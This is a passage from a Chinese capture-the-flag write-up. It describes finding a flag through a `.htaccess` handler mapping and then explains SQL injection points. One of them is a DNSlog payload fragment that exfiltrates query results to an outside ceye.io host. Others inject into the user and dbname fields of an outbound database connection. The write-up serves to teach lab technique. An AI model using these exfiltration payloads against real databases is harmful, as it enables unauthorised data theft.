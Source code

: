 好像没啥，根据 `hint：不是所有sql都叫PostgreSQL；flag在web目录下的某个文件里。` 确定，关键文件肯定在这里，于是继续尝试，读到了`.hatccess`，包含一下，再读一下

`.htaccess`

```
<FilesMatch "pushF1n4AnK">
  SetHandler application/x-httpd-php
</FilesMatch>

AddType image/jpeg .tank
```

可疑文件`pushF1n4AnK`，读一下

![flag](cqb2021/image-20210201201204964.png)

至此题目结束了

最后说一下注入点的问题

### 注入点

#### DNSlog

对于DNSlog，注入点在host，即`... host='|| (query) ||'.xxxx.ceye.io ...`，上面已解释过

#### 数据库外联

注入点在明文传输的部分，即`... user='|| (query) ||'...`和`... dbname='||(query) '`最后不需要`|`连接符，因为没有东西加了会报错

举例，例如在获取所有大对象oid时，在`user`处注，如图所示

![image-20210202021430433](cqb2021/image-20210202021430433.png)
